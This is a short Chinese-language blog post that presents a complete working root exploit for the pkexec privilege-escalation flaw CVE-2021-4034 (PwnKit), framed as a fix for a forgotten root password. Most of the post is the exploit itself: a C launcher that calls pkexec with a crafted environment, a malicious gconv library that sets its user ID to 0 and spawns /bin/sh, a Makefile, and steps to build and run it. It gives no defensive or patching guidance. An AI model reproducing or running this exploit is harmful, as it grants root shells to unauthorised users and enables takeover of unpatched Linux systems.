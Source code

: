 # CVE-2021-4034 普通用户提权ROOT SHELL漏洞

<!--more-->
只有普通用户，忘记了root密码怎么办? 试试这个方式提权吧!

github: https://github.com/berdav/CVE-2021-4034


### 离线执行,代码如下

cve-2021-4034.c
```bash
#include <unistd.h>

int main(int argc, char **argv)
{
        char * const args[] = {
                NULL
        };
        char * const environ[] = {
                "pwnkit.so:.",
                "PATH=GCONV_PATH=.",
                "SHELL=/lol/i/do/not/exists",
                "CHARSET=PWNKIT",
                "GIO_USE_VFS=",
                NULL
        };
        return execve("/usr/bin/pkexec", args, environ);
}
```

pwnkit.c
```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv(void) {
}

void gconv_init(void *step)
{
        char * const args[] = { "/bin/sh", NULL };
        char * const environ[] = { "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/opt/bin", NULL };
        setuid(0);
        setgid(0);
        execve(args[0], args, environ);
        exit(0);
}
```

Makefile
```bash
CFLAGS=-Wall
TRUE=$(shell which true)

.PHONY: all
all: pwnkit.so cve-2021-4034 gconv-modules gconvpath

.PHONY: clean
clean:
        rm -rf pwnkit.so cve-2021-4034 gconv-modules GCONV_PATH=./
        make -C dry-run clean

gconv-modules:
        echo "module UTF-8// PWNKIT// pwnkit 1" > $@

.PHONY: gconvpath
gconvpath:
        mkdir -p GCONV_PATH=.
        cp -f $(TRUE) GCONV_PATH=./pwnkit.so:.

pwnkit.so: pwnkit.c
        $(CC) $(CFLAGS) --shared -fPIC -o $@ $<

.PHONY: dry-run
dry-run:
        make -C dry-run
```

### 执行`make`编译,执行`./cve-2021-4034`提权


---

> 作者: [SoulChild](https://www.soulchild.cn)  
> URL: https://www.soulchild.cn/2844/  

